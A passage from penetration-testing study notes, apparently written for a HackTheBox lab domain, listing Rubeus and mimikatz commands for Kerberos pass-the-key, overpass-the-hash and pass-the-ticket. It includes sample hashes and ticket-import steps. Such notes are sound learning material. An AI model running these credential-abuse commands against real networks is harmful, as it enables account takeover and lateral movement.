     # we can also do the above using Rubeus, without admin rights
    Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
    # asktgt for pass the key or overpass the hash
    # hash format can be /rc4, /aes128, /aes256 or /des
    ```
  
  * Pass the Ticket (PtT):

    ```cmd
    Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
    # /ptt used to submit TGT or TGS ticket to current logon session

    # we can also import a ticket for ptt
    Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
    ```

    ```ps
    # to convert .kirbi to base64 in PS
    [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
    ```

    ```cmd
    # we can also convert .kirbi to base64 and then use it for ptt
    Rubeus.exe ptt /ticket:<base64-ticket>
    ```

    ```cmd
    # perform ptt using mimikatz
    mimikatz.exe

    privilege::debug

    kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

    misc::cmd
    # launch new cmd window with imported ticket
    # instead of exiting mimikatz.exe to get ticket into current cmd
    ```
  